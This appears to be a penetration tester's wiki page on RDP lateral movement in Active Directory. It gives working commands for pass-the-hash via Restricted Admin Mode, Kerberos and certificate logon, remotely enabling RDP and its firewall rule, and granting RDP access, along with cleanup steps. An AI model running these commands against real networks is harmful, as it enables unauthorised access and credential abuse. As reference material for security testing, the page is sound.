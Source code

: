 ```yaml
---
title: RDP Lateral Movement
---
```


[[notes/lateral-movement/index]] over [[notes/network/rdp]].

Connect over RDP.

=== "[[notes/tools/freerdp]]"
    ~~~ bash
    xfreerdp /cert:ignore +clipboard /dynamic-resolution /tls-seclevel:0 /u:john.doe@corp.local /p:'passw0rd' /v:srv01.corp.local
    ~~~

=== "builtin"
    ~~~ bat
    mstsc.exe /v:srv01.corp.local
    ~~~

> **Note:** RDP works over Chisels SOCKS proxy, but not over Sliver.

# Pass the Hash

[[notes/ad/pass-the-hash]] to RDP does not work by default because RDP requires interactive logon.
However it is possible to switch RDP to network logon by enabling *Restricted Admin Mode*.
Unfortunately this introduces the infamous [[notes/ad/double-hop-problem]].
It can be configured by setting the [[notes/windows/registry]] value `HKLM\System\CurrentControlSet\Control\Lsa\DisableRestrictedAdmin` to `0`.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass srv01.corp.local add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v DisableRestrictedAdmin -vt REG_DWORD -vd 0
    ~~~

=== "PowerShell"
    ~~~ powershell
    New-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\LSA' -Name DisableRestrictedAdmin -Value 0
    ~~~

=== "builtin"
    ~~~ bat
    reg.exe add "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
    ~~~

Authenticate with a NT hash.

=== "[[notes/tools/freerdp]]"
    ~~~ bash
    xfreerdp /cert:ignore +clipboard /dynamic-resolution /tls-seclevel:0 /u:jdoe@corp.local /pth:$nthash /v:srv01.corp.local
    ~~~

Cleanup.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass srv01.corp.local delete -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v DisableRestrictedAdmin
    ~~~

=== "PowerShell"
    ~~~ powershell
    Remove-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\LSA' -Name DisableRestrictedAdmin
    ~~~

=== "builtin"
    ~~~ bat
    reg.exe delete /f "\\srv01.corp.local\HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin
    ~~~

# Kerberos Authentication

Authenticate over Kerberos.

=== "[[notes/tools/aardwolfgui]]"
    ~~~ bash
    aardpclient 'rdp+kerberos-password://corp\jdoe:passw0rd@srv01.corp.local/?dc=dc01.corp.local'
    ~~~

Kerberos support in `xfreerdp` and `rdesktop` seems to be incomplete.
`crackmapexec` should support it, but currently throws an exception.
`aardwolf` does support it, but doesn't implement dynamic resolution and shared folders yet.

[[notes/ad/pass-the-ticket]] to RDP works only if *Remote Credential Guard* is enabled, because otherwise it requires an interactive logon.

References:

- [Abusing RDPs Remote Credential Guard with Rubeus PTT](http://web.archive.org/web/20230216004623/https://www.pentestpartners.com/security-blog/abusing-rdps-remote-credential-guard-with-rubeus-ptt/)

# Certificated-based Authentication

a) With PKINIT ([source](https://mobile.twitter.com/an0n_r0/status/1560699394365673472))

- install `pcsd`
- install [vpcd](https://frankmorgner.github.io/vsmartcard/virtualsmartcard/README.html) as virtual smartcard reader
- install [OpenSC](https://github.com/OpenSC/OpenSC/wiki/Smart-Card-Simulation#simulating-piv) as virtual smartcard
- upload your certificate into the virtual smartcard with [yubico-piv-tool](https://developers.yubico.com/yubico-piv-tool/)
- run `xfreerdp /smartcard`

b) [[notes/ad/unpac-the-hash]]

Maybe you need to disable the smart card requirement first by setting the [[notes/windows/registry]] key `HKLM\Software\Microsoft\Windows\CurrentVersion\policies\System\scforceoption` to `0`.

# Enable RDP

Enable RDP by setting the [[notes/windows/registry]] value `HKLM\System\CurrentControlSet\Control\Terminal Server\fDenyTSConnections` to `0` and open the firewall.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass srv01.corp.local add -keyName 'HKLM\System\CurrentControlSet\Control\Terminal Server' -v fDenyTSConnections -vt REG_DWORD -vd 0
    impacket-wmiexec -k -no-pass -nooutput srv01.corp.local 'netsh advfirewall firewall set rule group="remote desktop" new enable=yes'
    ~~~

=== "PowerShell"
    ~~~ powershell
    Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name fDenyTSConnections -Value 0
    Enable-NetFirewallRule -DisplayGroup 'Remote Desktop'
    Get-Service termservice
    ~~~

=== "builtin"
    ~~~ bat
    reg.exe add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    netsh.exe advfirewall firewall set rule group="remote desktop" new enable=yes
    sc.exe query termservice
    ~~~

Cleanup.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass srv01.corp.local delete -keyName 'HKLM\System\CurrentControlSet\Control\Terminal Server' -v fDenyTSConnections
    ~~~

=== "PowerShell"
    ~~~ powershell
    Remove-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -Name fDenyTSConnections
    ~~~

=== "builtin"
    ~~~ bat
    reg.exe delete /f "\HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
    ~~~

Allow an unprivileged user to login over RDP.

~~~ bat
net.exe localgroup "Remote Desktop Users" jdoe /add
net.exe localgroup Remotedesktopbenutzer jdoe /add
~~~

